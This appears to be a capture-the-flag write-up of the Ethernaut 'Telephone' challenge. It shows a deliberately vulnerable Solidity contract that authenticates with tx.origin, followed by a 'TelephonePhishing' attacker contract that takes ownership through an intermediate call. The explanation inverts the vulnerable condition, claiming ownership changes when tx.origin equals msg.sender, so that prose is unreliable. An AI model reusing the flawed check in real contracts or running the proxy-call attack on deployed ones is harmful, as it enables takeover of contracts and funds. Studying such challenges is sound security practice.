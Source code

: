 # Challenge 4 - Telephone

## Understanding the code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

```

This is a simple contract but let's understand what the function is doing here.

The function changeOwner which takes in _owner of type address as a parameter basically declares that if the original transaction sender and the sender of the "msg" or the ETH is the same then the _owner address now becomes the new owner.

- ```tx.origin``` is a global variable that refers to the original externally owned account of the transaction and it is of type address. Read the docs about tx.origin [here](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html?highlight=tx.origin)
- ```msg.sender``` is the address of the user that invokes the function. Read the docs about msg.sender [here](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html?highlight=msg.sender)

### What is an Externally Owned Account(EOA)?

EOA is a the user's wallet address. Example: your Metamask account's address is an EOA.
EOAs satisfy the following conditions:
- Only type of account that can initiate a transaction and
- Only type of account that owns a private key

This challenge requires us to make a Phishing Attack on this contract and teach us why one shouldn't use tx.origin to authenticate an account to execute a function.

The following is the code that I used on Remix IDE and injected onto the Telephone.sol contract in order to conduct a Phishing Attack.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './Telephone.sol';

contract TelephonePhishing {

    Telephone telephoneContract;

    constructor(address _addr) public{
        telephoneContract = Telephone(_addr);
    }

    function phish(address _addr) public{
        telephoneContract.changeOwner(_addr);
    }
    
}
```
